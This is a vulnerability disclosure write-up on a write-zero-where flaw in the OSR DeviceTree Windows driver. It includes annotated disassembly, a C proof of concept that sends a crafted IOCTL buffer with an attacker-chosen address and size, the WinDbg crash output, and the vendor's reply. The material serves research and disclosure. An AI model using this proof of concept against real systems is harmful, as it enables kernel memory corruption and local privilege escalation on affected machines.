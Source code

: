# OSR DeviceTree Local Privilege Escalation

Recently I reported a Write-Zero-Where vulnerability from non-privileged user in DeviceTree to OSRDEV.
I hoped they'd release a fixed version but unfortunately they decided to take the tool off their site.

DeviceTree is a very ancient yet still very useful research tool for both windows researchers and programmers.

## IOCTL 0xCF532013
This is a really simple driver and the vulnerability is really straight forward:

```
.text:FFFFF802248F1D60 ; __int64 __fastcall sub_FFFFF802248F1D60(__int64)
.text:FFFFF802248F1D60 sub_FFFFF802248F1D60 proc near          ; CODE XREF: sub_FFFFF802248F1E70+16E↓p
.text:FFFFF802248F1D60                                         ; DATA XREF: .pdata:FFFFF802248F5060↓o
.text:FFFFF802248F1D60
.text:FFFFF802248F1D60 var_28          = qword ptr -28h
.text:FFFFF802248F1D60 arg_0           = dword ptr  8
.text:FFFFF802248F1D60 arg_8           = qword ptr  10h
.text:FFFFF802248F1D60 arg_10          = qword ptr  18h
.text:FFFFF802248F1D60
.text:FFFFF802248F1D60                 mov     [rsp+arg_8], rbx
.text:FFFFF802248F1D65                 mov     [rsp+arg_10], rbp
.text:FFFFF802248F1D6A                 push    rsi
.text:FFFFF802248F1D6B                 push    rdi
.text:FFFFF802248F1D6C                 push    r12
.text:FFFFF802248F1D6E                 sub     rsp, 30h
.text:FFFFF802248F1D72                 mov     rsi, [rcx]
.text:FFFFF802248F1D75                 mov     r8d, [rcx+10h]
.text:FFFFF802248F1D79                 mov     rdx, [rcx+8]
.text:FFFFF802248F1D7D                 mov     rbx, rcx
.text:FFFFF802248F1D80                 mov     rcx, rsi
.text:FFFFF802248F1D83                 call    sub_FFFFF802248F1A38
.text:FFFFF802248F1D88                 mov     rdi, [rbx+28h]  ; Type3InputBuffer
.text:FFFFF802248F1D8C                 mov     ebp, [rbx+30h]  ; Type3InputBuffer
.text:FFFFF802248F1D8F                 xor     r12d, r12d
.text:FFFFF802248F1D92                 mov     [rsp+48h+arg_0], r12d
.text:FFFFF802248F1D97                 cmp     rdi, r12
.text:FFFFF802248F1D9A                 jz      short pre_exit
.text:FFFFF802248F1D9C                 cmp     ebp, r12d
.text:FFFFF802248F1D9F                 jz      short pre_exit
.text:FFFFF802248F1DA1                 mov     r8, rbp         ; controlled
.text:FFFFF802248F1DA4                 xor     edx, edx        ; zero :)
.text:FFFFF802248F1DA6                 mov     rcx, rdi        ; controlled
.text:FFFFF802248F1DA9                 call    memset
.text:FFFFF802248F1DAE                 cmp     rsi, r12        ; controlled, we can skip that
.text:FFFFF802248F1DB1                 jz      short pre_exit
.text:FFFFF802248F1DB3                 cmp     word ptr [rsi], 3
.text:FFFFF802248F1DB7                 jnz     short pre_exit
.text:FFFFF802248F1DB9                 lea     rax, [rsp+48h+arg_0]
.text:FFFFF802248F1DBE                 lea     edx, [r12+1]    ; DeviceProperty
.text:FFFFF802248F1DC3                 mov     r9, rdi         ; PropertyBuffer
.text:FFFFF802248F1DC6                 mov     r8d, ebp        ; BufferLength
.text:FFFFF802248F1DC9                 mov     rcx, rsi        ; DeviceObject
.text:FFFFF802248F1DCC                 mov     [rsp+48h+var_28], rax ; ResultLength
.text:FFFFF802248F1DD1                 call    cs:IoGetDeviceProperty
.text:FFFFF802248F1DD7                 cmp     eax, r12d
.text:FFFFF802248F1DDA                 jl      short loc_FFFFF802248F1DE3
.text:FFFFF802248F1DDC                 cmp     [rsp+48h+arg_0], r12d
.text:FFFFF802248F1DE1                 jnz     short pre_exit
```
The function deals with `METHOD_NEITHER` buffer and does not properly validates the user input:

```
2: kd> !ioctldecode 0xCF532013

Unknown IOCTL  : 0xcf532013 

Device Type    : 0xcf53
Method         : 0x3 METHOD_NEITHER 
Access         : FILE_ANY_ACCESS
Function       : 0x804
```
On the entry of the function `rcx` points to CurrentStackLocation->Parameters.DeviceIoControl.Type3InputBuffer and as can be seen it passes arbitrary data to `memset` which in turn leads to write-zero-where vulnerability.

As can be noticed, there are certain conditions that we need to avoid but since we control the whole input we can do so.

Note: This driver contains more IOCTL handlers and may contain more vulnerabilities that I haven't looked at. Due to lack of time/interest.

## POC

```
	hDevice = CreateFileA("\\\\.\\OBJINFO", 0, FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, OPEN_EXISTING, 0, NULL);

	if (hDevice == INVALID_HANDLE_VALUE) {
		printf("getlasterror: %d", GetLastError());
	}

	PUCHAR a = (PUCHAR)malloc(SIZE);
	memset(a, 0x00, SIZE);


	*((unsigned long long*)((unsigned char*)a + 0)) = NULL;//garbage
	*((unsigned long long *)((unsigned char*)a + 40)) = 0x4141414141414141;//where
	*((unsigned int *)((unsigned char*)a + 48)) = 10;//size

	bResult = DeviceIoControl(hDevice, 0xCF532013, a, SIZE, a, SIZE, &junk, 0);
```

WINDBG output:
```
CONTEXT:  ffffbf8a2c2f4700 -- (.cxr 0xffffbf8a2c2f4700)
rax=4141414141414141 rbx=0000020db64080d0 rcx=4141414141414141
rdx=0000000000000000 rsi=0000000000000000 rdi=4141414141414141
rip=fffff802248f2190 rsp=ffffbf8a2c2f5108 rbp=000000000000000a
 r8=0000000000000002  r9=0000000000000001 r10=fffff802248f1e70
r11=ffffbf8a2c2f5100 r12=0000000000000000 r13=0000000000000000
r14=ffffce83fb411a50 r15=ffffce83fa121a70
iopl=0         nv up ei pl nz na pe nc
cs=0010  ss=0018  ds=002b  es=002b  fs=0053  gs=002b             efl=00050202
objinfo+0x2190:
fffff802`248f2190 488911          mov     qword ptr [rcx],rdx ds:002b:41414141`41414141=????????????????
```


## Takeway

As security researchers and programmers we need to be careful with the tools we use and take risks and security vulnerabilities into consideration when using a tool.


## OSR's resposne

```
The product referenced hasn't been updated in 10 years - and in fact, has always been an unsupported utility. The rather ancient, archived site where this utility is still hosted advises folks as follows (link HERE):

<screenshot>

To close the loop, we're going to go off (as I write this) and attempt to formally pull the utility from the site.

Thanks for getting in touch. Feel free to use me as a contact for any future issues - I don't directly support our products, not being a dev, but I would know who internally to turn to for assistance.
```
